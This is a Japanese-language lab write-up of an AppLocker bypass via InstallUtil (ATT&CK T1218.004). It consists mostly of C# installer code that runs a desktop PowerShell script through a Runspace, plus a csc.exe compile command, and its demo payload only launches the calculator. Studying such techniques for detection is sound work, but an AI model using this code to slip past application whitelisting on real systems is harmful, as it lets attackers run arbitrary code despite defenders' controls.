

# T1218.004 - InstallUtil


InstallUtil を用いた AppLocker のバイパスについて記載します。

検証の前提として、[AppLocker GPO to Powershell.exe](https://github.com/nishikawaakira/yeabook/blob/main/attack/lab/AppLocker_GPO_for_PS.md) が適用されている環境を用意します。

|  Type  | Description   |
---|---
|  ID  |  T1218.004  |
|  Tactic  |  Defense Evasion |
|  Techniques  |  Signed Binary Proxy Execution  |
|  Sub-techniques  |  InstallUtil |

AppLocker GPO to Powershell.exe
-------------

AppLocker をバイパスして実行させる ps1 形式の Powershell スクリプトを準備します。
ここでは簡単のために、start-process で電卓を起動させるスクリプトを用意します。

本スクリプトは、AppLocker による Powershell.exe の制限環境では実行することはできません。




C# code for calling Powershell script
-------------

Powershell と同様に .NET のフロントエンドである Ｃ# プログラムを利用して目的の Powershell スクリプトを実行します。


```
using System;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
public class Program
{
    public static void Main()
    {
    }
}
[System.ComponentModel.RunInstaller(true)]
public class Sample : System.Configuration.Install.Installer
{
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
    Mycode.Exec();
    }
}
public class Mycode
{
    public static void Exec()
    {
    string desktop = System.Environment.GetFolderPath(Environment.SpecialFolder.DesktopDirectory) + "\\app_bypass.ps1";
    string command = System.IO.File.ReadAllText(desktop);
    RunspaceConfiguration rspacecfg = RunspaceConfiguration.Create();
    Runspace rspace = RunspaceFactory.CreateRunspace(rspacecfg);
    rspace.Open();
    Pipeline pipeline = rspace.CreatePipeline();
    pipeline.Commands.AddScript(command);
    pipeline.Invoke();
    }
}
```

```
cmd /c C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll /unsafe /platform:anycpu /out:%USERPROFILE%\Desktop\Program.exe %USERPROFILE%\Desktop\Program.cs

```